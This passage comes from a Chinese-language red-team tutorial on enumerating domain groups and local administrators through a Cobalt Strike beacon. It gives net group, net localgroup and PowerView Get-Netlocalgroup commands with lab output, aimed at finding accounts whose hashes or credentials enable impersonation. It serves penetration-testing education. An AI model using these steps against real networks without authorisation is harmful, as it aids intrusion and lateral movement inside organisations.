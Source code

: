## net 模块

beacon 的 net 模块也可以帮助我们，下面的命令中 `TARGET` 的意思是一个域控制器或者是任何想查看的组名，比如企业管理员、域管理员等等

```powershell
net group \\TARGET group name
```

也可以运行下面的命令，这会连接任意目标来获取列表

```powershell
net localgroup \\TARGET group name
```

# 0x03 本地管理员

## net 模块

本地管理员可能是一个域账户，因此如果想把一个系统作为目标，应该找到谁是这个系统的本地管理员，因为如果获得了它的密码哈希值或者凭据就可以伪装成那个用户。

beacon 的 net 模块可以在系统上从一个没有特权的关联中查询本地组和用户。

在 beacon 控制台中运行下面命令可以获得一个目标上的群组列表

````powershell
net localgroup \\TARGET
````

如果想获取群组的列表，可运行下面的命令来获得一个群组成员的名单列表。

```powershell
net localgroup \\TARGET group name
```

```powershell
beacon> net localgroup \\WIN-P26AK33U871 administrators
[*] Tasked beacon to run net localgroup administrators on WIN-P26AK33U871
[+] host called home, sent: 104510 bytes
[+] received output:
Members of administrators on \\WIN-P26AK33U871:
TEAMSSIX\Administrator
TEAMSSIX\Daniel
TEAMSSIX\Enterprise Admins
TEAMSSIX\Domain Admins
```

## PowerView 模块

PowerView 使用下面的命令能够在一个主机上找到本地管理员，这条命令实际上通过管理员群组找到同样的群组并且把成员名单返回出来。

```powershell
Get-Netlocalgroup -hostname TARGET
```

```powershell
beacon> powershell Get-Netlocalgroup -Hostname WIN-P26AK33U871
[*] Tasked beacon to run: Get-Netlocalgroup -Hostname WIN-P26AK33U871
[+] host called home, sent: 385 bytes
[+] received output:

ComputerName : WIN-P26AK33U871
AccountName  : teamssix.com/Administrator
IsDomain     : True
IsGroup      : False
SID          : S-1-5-22-3301978333-983314215-684642015-500
Description  : 
Disabled     : 
LastLogin    : 2020/8/17 22:21:23
PwdLastSet   : 
```